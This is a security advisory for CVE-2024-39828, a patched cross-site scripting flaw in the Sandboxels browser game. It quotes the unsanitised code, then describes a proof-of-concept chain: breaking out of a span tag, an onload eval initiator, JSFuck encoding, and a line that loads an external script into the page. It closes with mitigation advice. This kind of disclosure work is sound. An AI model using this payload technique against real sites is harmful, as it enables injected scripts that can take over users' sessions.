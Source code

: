 # Cross-site scripting vulnerability for Sandboxels 1.9 - 1.9.5 ([CVE-2024-39828](https://nvd.nist.gov/vuln/detail/CVE-2024-39828))
This report details a cross-site scripting (XSS) vulnerability in Sandboxels (https://sandboxels.r74n.com/) affecting versions 1.9 to 1.9.5. The vulnerability can be exploited without requiring any game modifications.

### This exploit has been patched in a hotfix for version 1.9.5

## Vulnerability Overview
Sandboxels has a feature that lets some elements clone other pixels. Each cloning element (referred to as a "cloner") starts cloning the first pixel it touches. That pixel's element is displayed below the game canvas when hovering over the cloner.

## Exploit Details
Since version 1.9 which adds saves that can be manipulated in external programs and version 1.9.1 which adds a Prop tool, that property can be exploited to display arbitrary message below the game canvas. Since elements aren't verified or sanitized, that field can be exploited to execute JavaScript code (XSS):
```js
if (elements[currentPixel.element].hoverStat) {
    stats += "<span id='stat-hover' class='stat'>"+elements[currentPixel.element].hoverStat(currentPixel)+"</span>";
}
else if (currentPixel.clone) {
    stats += "<span id='stat-clone' class='stat'>"+currentPixel.clone.toUpperCase()+"</span>";
}
```
The uppercase value of the `clone` property is appended to the HTML code inside of `stats` div without any validation.

## Proof of concept
To manipulate the `clone` property of a pixel, the Prop tool is utilized. This tool allows players to change the properties of a pixel to any data without modifying the save file.

1. The attacker escapes the `<span>` tag using a `</span>` closing tag
2. The attacker injects JavaScript code using a known vulnerability, such as `<style onload=''></style>`. The injected code will function as an initiator: `eval(document.getElementById("1").innerHTML.toLowerCase())`
This code will turn any code found inside of an element with id of 1 into lowercase and run it.
Since the initiator code can't contain lowercase letters, a tool like [JSFuck](https://jsfuck.com/) should be used to remove such characters.
3. The attacker uses a `<p>` (or any other text-based tag) with an id of 1 to store the rest of the code. This code will be used to load an external script: `let a=document['createElement']('script');a.src='URL';document.head.append(a)`. Since this code will be turned into lowercase, it can't contain any uppercase characters, so a tool like JSFuck should be used to change any code that might contain such characters (such as 'createElement' in this case). That also mean that the URL can't contain such characters either.

### Steps to reproduce
1. Select the Prop tool in Sandboxels
2. Paste the code from `initiator.js` into browser's console
3. Use the Prop tool on some pixels
4. Hover over those pixels
5. Code from `test.js` should be executed

## Mitigation Recommendations
To prevents this XSS vulnerability, the following measures should be implemented:
* **Input Validation and Sanitization**: All inputs should be properly validated and sanitized, especially if they affect HTML content
* **Escape Output**: Any user-generated content should be escaped before inserting it into the DOM

By addressing these issues, the security of Sandboxels can be significantly improved, protecting users from potential XSS attacks.
